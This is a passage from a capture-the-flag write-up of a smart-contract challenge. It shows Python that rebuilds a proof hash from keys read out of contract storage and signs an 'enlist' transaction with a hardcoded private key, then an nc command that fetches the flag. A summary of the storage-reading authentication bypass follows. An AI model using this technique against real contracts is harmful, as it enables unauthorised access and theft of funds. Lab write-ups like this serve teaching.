 ### Step 3: Proof Hash Generation
```python
proof_hash = Web3.keccak(public_key + private_key)
# Result: 0x9d3f5567a25a1b5b3bc330351dcde6b026d5d22b120f52f040459d5794c48c59
```

### Step 4: Transaction Execution
```python
from eth_account import Account

account = Account.from_key("0xefcfb37078a42b498696ba6d1e16f3997218df86542bb321bf42ec8369165de1")

# Contract interaction
abi = [{"inputs": [{"type": "bytes32", "name": "_proofHash"}], 
        "name": "enlist", "outputs": [], 
        "stateMutability": "nonpayable", "type": "function"}]

contract = w3.eth.contract(address="0xFabD4DdC9d21515CEbc5bfcd1a815200b0e4651D", abi=abi)

# Send enlist transaction
tx = contract.functions.enlist(proof_hash).build_transaction({
    'from': account.address,
    'nonce': w3.eth.get_transaction_count(account.address),
    'gas': 200000,
    'gasPrice': w3.eth.gas_price
})

signed_txn = account.sign_transaction(tx)
tx_hash = w3.eth.send_raw_transaction(signed_txn.raw_transaction)
```

**Result:** Transaction successful - player enlisted in contract

### Step 5: Flag Retrieval
```bash
nc 94.237.48.68:46493
# Select option 3 to get flag
```

## Key Insights

### Technical Findings
1. **Blockchain Transparency:** All contract storage is publicly accessible via RPC calls
2. **Constructor Parameter Exposure:** Original constructor arguments preserved in storage
3. **Bit Shift Operations:** Understanding Solidity's `<< (16*8)` shift logic was crucial
4. **Hash-Based Authentication:** Common smart contract pattern vulnerable to storage analysis

### Exploitation Technique
- **Storage Reading:** Direct access via `eth_getStorageAt` bypassed visibility restrictions
- **Key Reconstruction:** Reverse-engineered constructor logic to identify public/private key split
- **Authentication Bypass:** Generated valid proof hash without cryptographic breaking
